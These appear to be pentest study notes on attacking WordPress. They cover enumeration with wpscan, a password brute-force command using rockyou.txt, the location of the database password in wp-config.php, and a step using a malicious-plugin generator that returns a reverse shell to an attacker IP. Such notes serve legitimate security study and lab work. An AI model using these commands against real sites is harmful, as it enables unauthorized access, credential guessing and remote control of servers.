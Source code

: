 # Wordpress

### Main WordPress Files

Wordpress runs on PHP and MySQL.&#x20;

Uploaded files go to: _/wp-content/uploads/_

Theme files go to: _/wp-content/themes/_

Plugin files go to _/wp-content/plugins/_

Core files go to: _/wp-includes/_

Default login paths:

* _/wp-login.php_
* _/wp-login_
* _/wp-admin/_
* _/wp-admin.php_
* _/login/_

You can find the root password of the database in /wp-config.php/

There is multiple ways to get a shell using WordPress, without valid credentials we can see if we can exploit any plugins. The reason being, Plugins are community made, therefore they can be more insecure and not as frequently updated as the actual Wordpress software.&#x20;

### Scanning Wordpress:&#x20;

```
wpscan --url http://192.168.105.55 --enumerate u -e cb -e at 
```

![](<../../../.gitbook/assets/image (36).png>)

By doing a searchsploit search of the plugins we can find vulnerable plugins that we can turn into Remote Code Execution.

![](<../../../.gitbook/assets/image (49).png>)

### Enumerating Themes and Plugins

#### Enumerate Plugins

To scan for plugins, run the following:

> wpscan --url \<URL> -e ap

Argument Key:

* "-e" is for enumeration
* "ap" is "all plugins
* "vp" is vulnerable plugins
* "p" is popular plugins

> **Tip**: I recommend always using _**--plugins-detection mixed.**_

#### Enumeration of Themes <a href="#lecture_heading" id="lecture_heading"></a>

You can specify WPScan to check for themes only by using the following:

> wpscan --url \<URL> -e at

Operator Key:

* "-e" flag is for enumeration
* "t" is "popular themes"
* "at" is "all themes"
* "vt" is "vulnerable themes" only

### Brute Forcing Wordpress:

```
wpscan –url http://example.com –passwords rockyou.txt –usernames admin
```

### Remote Code Execution through Plugins (Authenticated)

![](<../../../.gitbook/assets/image (70).png>)

In the admin panel of wordpress one will be able to see that we can install a new plugin.&#x20;

{% embed url="https://github.com/wetw0rk/malicious-wordpress-plugin" %}

This python script will automatically generate a zip file in which we can install as a plugin and then navigating to it will result in a reverse shell.&#x20;

```
python wordpwn.py <reverseip> 443 Y
```

Install the plugin.

{% embed url="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FwbAlFk105Y78ce4THBOF%2Fuploads%2FHuq7gxvitAPb9DeQc5d1%2F2022-07-16_13-33.png?alt=media&token=a9d16985-64f1-4880-a7eb-d2f6bbae27a7" %}

Navigate to it.&#x20;

{% embed url="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FwbAlFk105Y78ce4THBOF%2Fuploads%2Far5yVEWuuUlAReS2rmPO%2F2022-07-16_13-35.png?alt=media&token=aa7acb4c-c1bc-4feb-9b40-7cfaa9586f69" %}

We execute it and we get a reverse shell.&#x20;

![](<../../../.gitbook/assets/image (38).png>)

